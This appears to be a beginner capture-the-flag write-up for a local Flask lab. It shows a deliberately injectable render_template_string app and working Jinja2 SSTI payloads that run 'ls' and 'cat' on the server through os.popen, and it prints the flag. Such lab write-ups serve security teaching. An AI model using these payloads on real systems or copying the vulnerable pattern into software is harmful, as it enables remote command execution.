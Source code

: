 # SSTI-Intro

### Difficulty: Beginner

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine. Then, install the files `app.py` , `Dockerfile` and `flag-6fbbff92650117ea3994ead7b72dbda7.txt` into the same directory.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>


The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's analyze the source code and observe what kind of vulnerability does the server contains.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string

app=Flask(__name__)

@app.route('/', methods=('GET','POST'))
def index():
	if request.method=='POST':
		note=request.form['note']
		if note:
			return render_template_string(note)
		else:
			return('Please provide some text')
	return '''
		<form method="POST">
			Note:<input type="text" name="note">
			<input type="submit" value="Submit">
		</form>
	'''

if __name__=='__main__':
	app.run(host='0.0.0.0',port= 80,debug=True) 

```

We can see that the source code contains `render_template_string()` which is a Jinja2 web template engine function for Python that has a SSTI vulnerability. 
Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is confirmed that the website is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` and read the files in the server.

![image](https://github.com/user-attachments/assets/16b5e54c-64fe-4fc6-a4eb-b1bf843e9af2)

Now we know that there is a file called `flag-6fbbff92650117ea3994ead7b72dbda7.txt` so we can use this payload to read the content of the file `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag-6fbbff92650117ea3994ead7b72dbda7.txt').read()}}`. Then, we should be able to retrieved the flag.

![image](https://github.com/user-attachments/assets/676d9337-6f06-4d9d-b429-601bf1f311cf)

## Flag
>flag{9e21e40be1f2003d55c96d6407e28b01}

</details>
